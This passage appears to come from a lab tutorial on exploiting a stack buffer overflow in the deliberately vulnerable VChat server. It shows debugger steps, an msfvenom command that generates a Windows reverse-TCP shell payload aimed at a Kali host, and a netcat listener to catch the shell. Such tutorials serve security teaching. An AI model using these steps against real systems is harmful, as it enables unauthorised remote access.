 		<img src="Images/I18.png" width=800>

         * Notice that the EIP now points to an essfunc.dll address!
	4. Once the overflow occurs, click the *step into* button highlighted below.

		<img src="Images/I19.png" width=800>

	5. Notice that we jumped to the stack; we just overflowed!

		<img src="Images/I20.png" width=800>


Now that we have all the necessary parts for the creation of a exploit we will discuss what we have done so far (the **exploit.py** files), and how we can now expand our efforts to gain a shell in the target machine.

### Exploitation
Up until this point in time,  we have been performing [Denial of Service](https://attack.mitre.org/techniques/T0814/) (DoS) attacks. Since we simply overflowed the stack with what is effectively garbage address values (a series of `A`s, `B`s, and `C`s), all we have done with our exploits is crash the VChat server directly or indirectly after our jump instructions lead to an invalid operation. Now, we have all the information necessary to control the flow of VChat's execution, allowing us to inject [Shellcode](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) and perform a more meaningful attack.

1. We first need to generate some shell code to inject into the process. We will use the [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) tool to both generate shellcode and encode it to ensure it is transmitted properly. We **must** encode the resulting shellcode so it does not contain any null bytes `0x0`, carriage returns `\r` or newlines `\n`, as their presence would prevent the shellcode from properly executing by breaking the transmission, reception or execution of the shellcode. **Note**: you may need to type the command since copy and paste may not work.

	```sh
	msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.7 LPORT=8080 EXITFUNC=thread -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
	* `-f`: The output format.
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-a x86`: Specify the target architecture as `x86`
	* `--platform windows`: Specify the target platform as Windows
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values.
      	* `\x00\x0a\x0d`: Null char, carriage return, and newline.

2. Insert this into your exploit python code as shown in [exploit4.py](./SourceCode/exploit4.py) or [exploit5.py](./SourceCode/exploit5.py). The only difference between the two is that the extra padding at the end of [exploit4.py](./SourceCode/exploit4.py)'s payload `b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))` is not needed. This exploit will perform the final exploit, generating a reverse shell.
3. Launch a [netcat](https://linux.die.net/man/1/nc) listener on our *Kali Linux* machine listening on port 8080, so we can receive the outbound connection from the target.
	```sh
	nc -l -v -p 8080
	```
	* `nc`: The netcat command.
  	* `-l`: Set netcat to listen for connections.
  	* `v`: Verbose output.
  	* `p`: Set to listen on a port, in this case, port 8080.
